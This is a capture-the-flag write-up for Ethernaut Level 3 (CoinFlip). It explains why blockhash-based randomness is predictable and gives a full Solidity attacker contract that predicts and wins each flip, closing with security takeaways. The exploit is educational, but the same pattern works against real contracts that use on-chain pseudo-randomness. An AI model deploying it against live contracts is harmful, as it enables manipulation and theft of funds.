

<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 3 - Coinflip</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 3 - CoinFlip](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-03-coinflip)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals


## The hack

Everything in the EVM is deterministic. This means that entropy doesn't exist natively on-chain (you can use third-party solutions like [Chainlink VRF](https://docs.chain.link/vrf/)).
The logic used in the `CoinFlip` contract is only pseudo-random. So we can predict the next flip by using the same logic as the one in the contract.
Once done, we can call the `flip` function with the predicted value and repeat this 10 times to win the level.

## Solution

We can craft a smart contract that reproduces the same logic as the `CoinFlip` contract to predict the next flip and call the `flip` function with the predicted value.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface ICoinFlip {
    function flip(bool) external returns (bool);
}

contract Unflip {
    address immutable coinflip;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinflip) {
        coinflip = _coinflip;
    }

    function playToWin() private view returns (bool) {
        uint256 pastBlockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlipResult = pastBlockValue / FACTOR;
        return coinFlipResult == 1 ? true : false;
    }

    function attack() public {
        ICoinFlip(coinflip).flip(playToWin());
    }
}
```

## Takeaway

- Entropy doesn't exist on-chain
- Pseudo-randomness can help for development but not for production
- To read: https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#entropy-illusion

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
